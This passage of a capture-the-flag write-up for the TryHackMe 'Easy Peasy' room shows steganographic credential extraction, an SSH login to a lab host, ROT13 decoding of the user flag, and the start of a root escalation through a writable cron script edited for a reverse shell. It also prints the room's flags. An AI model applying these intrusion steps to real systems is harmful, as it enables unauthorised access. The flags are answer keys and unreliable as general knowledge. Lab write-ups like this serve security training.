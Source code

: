 ```
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```
Now i tried to use `steghide` on `binarycodepixabay.jpg` using the password that we cracked earlier.Inside that file we got a `secrettext.txt` which contains a username and password in binary,so after converting binary to text we have a username and password which we can use to ssh into machine.

**ssh= boring:iconvertedmypasswordtobinary**

```
lelouch@lelouch-IdeaPad-3-15IML05-D:~/Tryhackme/Easy Peasy$ ssh boring@10.10.163.86 -p 6498
The authenticity of host '[10.10.163.86]:6498 ([10.10.163.86]:6498)' can't be established.
ECDSA key fingerprint is SHA256:hnBqxfTM/MVZzdifMyu9Ww1bCVbnzSpnrdtDQN6zSek.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '[10.10.163.86]:6498' (ECDSA) to the list of known hosts.
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized	       **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
boring@10.10.163.86's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```
Now after logging into the machine ,we found user.txt,but the flag was rotated by rot13.
```
lelouch@lelouch-IdeaPad-3-15IML05-D:~/Tryhackme/Easy Peasy$ echo "synt{a0jvgf33zfa0ez4y}"|rot13
flag{n0wits33msn0rm4l}
```
## Privilege escalation 

Now i had to escalate my privileges to get the root.txt,so i found a script running as root in crontab.so i edited it to get a root reverse shell and hence got the root flag.
```
boring@kral4-PC:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
